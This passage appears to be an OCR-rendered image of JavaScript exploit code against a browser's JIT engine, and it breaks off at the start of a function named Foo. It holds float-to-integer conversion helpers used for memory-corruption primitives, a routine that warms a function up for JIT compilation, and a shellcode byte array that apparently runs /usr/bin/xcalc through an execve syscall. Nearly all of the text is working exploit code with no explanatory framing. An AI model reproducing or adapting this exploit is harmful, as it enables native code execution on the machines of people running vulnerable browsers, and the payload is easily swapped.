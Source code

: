 ```
const MAX_ITERATIONS = 0xc0000;
const buf = new ArrayBuffer(8);
const f64 = new Float64Array(buf);
const u32 = new Uint32Array(buf);

function f2i(val)
{ 
    f64[0] = val;
    return u32[1] * 0x100000000 + u32[0];
}

function i2f(val)
{
    let tmp = [];
    tmp[0] = parseInt(val % 0x100000000);
    tmp[1] = parseInt((val - tmp[0]) / 0x100000000);
    u32.set(tmp);
    return f64[0];
}

function i2obj(val)
{
    return i2f(val-0x02000000000000);
}

function hex(i)
{
    return "0x"+i.toString(16).padStart(16, "0");
}

var shellcode = [72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72, 184, 46, 121, 98,
    96, 109, 98, 1, 1, 72, 49, 4, 36, 72, 184, 47, 117, 115, 114, 47, 98,
    105, 110, 80, 72, 137, 231, 104, 59, 49, 1, 1, 129, 52, 36, 1, 1, 1, 1,
    72, 184, 68, 73, 83, 80, 76, 65, 89, 61, 80, 49, 210, 82, 106, 8, 90,
    72, 1, 226, 82, 72, 137, 226, 72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72,
    184, 121, 98, 96, 109, 98, 1, 1, 1, 72, 49, 4, 36, 49, 246, 86, 106, 8,
    94, 72, 1, 230, 86, 72, 137, 230, 106, 59, 88, 15, 5];

function MakeJitCompiledFunction() {
    function target(num) {
        for (var i = 2; i < num; i++) {
            if (num % i === 0) {
                return false;
            }
        }
        return true;
    }
    for (var i = 0; i < 1000; i++) {
        target(i);
    }
    for (var i = 0; i < 1000; i++) {
        target(i);
    }
    for (var i = 0; i < 1000; i++) {
        target(i);
    }
    return target;
}

var jitFunc = MakeJitCompiledFunction();

function Foo(arr, n)
{
```